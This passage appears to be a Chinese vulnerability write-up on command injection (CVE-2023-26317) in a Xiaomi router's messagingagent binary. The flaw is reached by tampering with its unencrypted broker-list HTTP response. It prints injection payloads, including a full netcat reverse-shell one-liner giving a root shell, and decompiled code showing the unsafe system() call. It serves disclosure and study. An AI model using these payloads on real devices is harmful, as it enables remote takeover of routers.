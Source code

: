   
在拦截 WAN 通信时，我们注意到路由器发出了不同的请求。其中一个请求似乎特别有趣：对https://eu.api.miwifi.com/miwifi-broker/list.我们手工重现它，看看答案是什么样的。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdscTh69Dv4JUibQIVxhmpaOHshtVWGLib8b0bno1KcJLibHP7yRViaR9FPHqQ/640?wx_fmt=png&from=appmsg "")  
  
**二进制/usr/bin/messagingagent- 命令注入 (CVE-2023-26317)**  
  
我们假设此 GET 请求用于检索MQTT服务器 IP，以便将来在路由器内进行通信。 IP 列表非常有趣，在看到一些二进制文件如何通过 直接将元素作为参数传递给其他二进制文件之后system()，我们直觉地认为这个 IP 列表可能会作为参数传递给某个二进制文件。因此我们可以尝试在这里盲目地注入命令。  
  
  
由于 HTTP 流量未加密且可以修改，我们拦截了请求并尝试注入;reboot;......serverList然后路由器重新启动！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdscbYmFaictuEQwVdTmV7PzACcicrwOI9eO9tff720VbwuDc7p5EHb6Y39g/640?wx_fmt=png&from=appmsg "")  
  
对于 bash 注入，我们决定更进一步，演示可以使用netcat( nc 192.168.0.1 4343) 进行外部连接的注入。再次强调，该漏洞利用的唯一操作是拦截和修改传出的 HTTP 请求，这相对简单。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdsc4pmjd5xxRYiapVMe5T7mLLxIiaPz2vRASnia2bpL2KfKA94JJFf4Foo6w/640?wx_fmt=png&from=appmsg "")  
  
此外，通过有效负载：serverList=192.168.2.5;rm -f /tmp/f;mknod /tmp/f p;echo 'cat /tmp/f|sh -i 2>&1|nc 192.168.0.1 4242 >/tmp/f' > revshell.sh;chmod 777 revshell.sh; sh revshell.sh;:1883，我们可以从 WAN 上的路由器上弹出 root shell：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taexa7YMMkONpKcUPiaiaVwdsczzgBTPQwM2NcvjB3qRjv2peUNWhp7bsOEeiaZ3HotagZTQBuJUicEuGw/640?wx_fmt=png&from=appmsg "")  
  
现在，让我们看看这个错误是从哪里来的。  
  
  
二进制文件/usr/bin/messagingagent包含对 的请求https://eu.api.miwifi.com/miwifi-broker/list：URL 是使用文件构建config_api的/usr/share/messaging.conf。  
  
```
key_file = /usr/share/messaging/serverkey_2.pub
push_channel = xqpc
config_api = /miwifi-broker/list
register_device_api = /register_device
miwifi_service_ips = 183.84.5.44,58.83.177.108
```  
  
  
此请求返回以下形式的字符串：serverList=[IP]:[PORT],...。此 HTTP 响应的解析函数位于ma_app_context_update_conn_data处的函数中0x408698。在解析过程中，只需从响应中删除IP和PORT并将其连接到传递到函数中的字符串system。此方法的问题system在于命令可以轻松注入，因此参数注入IP会导致操作系统命令注入。  
  
```
int32_t ma_app_context_update_conn_data(void* arg1)
{
    [...]
    // Here we can see the split with ",": ["3.127.110.152:1884", "3.127.110.143:1883", "3.127.110.152:1883"]
    int32_t* configs_split = ma_str_split(*(int32_t*)((char*)arg1 + 0x18), ",");
    int32_t nb_configs = ma_str_array_size(configs_split);
    if (nb_configs == 0)
    {
        trap(0);
    }
 
     // Here a split with ":": ["3.127.110.152", "1884"]
    int32_t* ip_port_split = ma_str_split(configs_split[(v0_6 % nb_configs)], ":");
    if (ma_str_array_size(ip_port_split) != 2)
    {
        printf("[MQTT ERROR %d %s:%d]: Bad broker list: %s\n", time(0), "/ma_app_context.c", 0xae, *(int32_t*)((char*)arg1 + 0x18));
        fflush(stdout);
    }
    else
    {
        char* broker_ip = *(int32_t*)ip_port_split;
        int32_t broker_port = atoi(ip_port_split[1]);
```